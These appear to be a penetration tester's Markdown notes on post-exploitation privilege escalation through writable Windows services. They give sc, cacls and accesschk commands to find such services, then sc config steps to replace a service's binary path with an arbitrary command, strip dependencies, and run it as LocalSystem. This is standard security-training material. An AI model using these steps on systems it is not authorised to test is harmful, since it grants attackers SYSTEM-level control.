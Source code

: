 ```yaml
---
tags: [PostEx]
title: PostEx/Vulnerable Windows Services
created: '2020-01-23T02:07:25.324Z'
modified: '2020-01-23T02:13:47.392Z'
---
```


# PostEx/Vulnerable Windows Services
## Find world writeable, elevated application paths
List all services
```
sc query state= all | findstr "SERVICE_NAME:"
```
Check the permissions of the directories using `cacls`
```
cacls <path-to-exe>
```

## Search for vulnerable, world writeable, privileged services
```
accesschk.exe -uwcqv "Authenticated Users" *
```
For Windows XP an older version must be uploaded with the `accepteula` flag
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
Once a service has been found change its executable path and run it
```
sc qc <vuln-service>
sc config <vuln-service> binpath= "<command>"
sc start <vuln-service>
```
Sometimes a dependency needs to be removed
```
sc config <vuln-service> depend= "" start= demand obj= ".\LocalSystem" password= ""
```
